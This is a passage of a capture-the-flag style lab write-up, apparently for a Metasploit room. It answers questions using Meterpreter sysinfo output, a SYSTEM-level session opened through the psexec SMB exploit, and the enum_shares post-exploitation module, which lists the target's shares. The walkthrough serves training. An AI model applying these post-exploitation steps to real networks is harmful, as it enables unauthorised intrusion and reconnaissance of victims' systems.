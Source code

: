 ```console 
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : FLASH
Logged On Users : 7
Meterpreter     : x86/windows
```
{: .nolineno}

Answer : ACME-TEST

### What is the target domain ?

The sysinfo command above give us the domain too !

Answer : FLASH

### What is the name of the share likely created by the user ?

Background the actual meterpreter the search for a new mode for SMB share enumeration :

```console
msf5 exploit(windows/smb/psexec) > sessions

Active sessions
===============

  Id  Name  Type                     Information                      Connection
  --  ----  ----                     -----------                      ----------
  1         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ ACME-TEST  10.10.196.135:4444 -> 10.10.99.128:54360 (10.10.99.128)


msf5 exploit(windows/smb/psexec) > search scanner/share
[-] No results from search
msf5 exploit(windows/smb/psexec) > search scanner_share
[-] No results from search
msf5 exploit(windows/smb/psexec) > search enum/share
[-] No results from search
msf5 exploit(windows/smb/psexec) > search enum_share

Matching Modules
================

   #  Name                             Disclosure Date  Rank    Check  Description
   -  ----                             ---------------  ----    -----  -----------
   0  post/windows/gather/enum_shares                   normal  No     Windows Gather SMB Share Enumeration via Registry


msf5 exploit(windows/smb/psexec) > use 0
msf5 post(windows/gather/enum_shares) > run

[*] Running against session 1
[*] The following shares were found:
[*] 	Name: SYSVOL
[*] 
[*] 	Name: NETLOGON
[*] 
[*] 	Name: speedster
[*] 
[*] Post module execution completed
```
{: .nolineno}
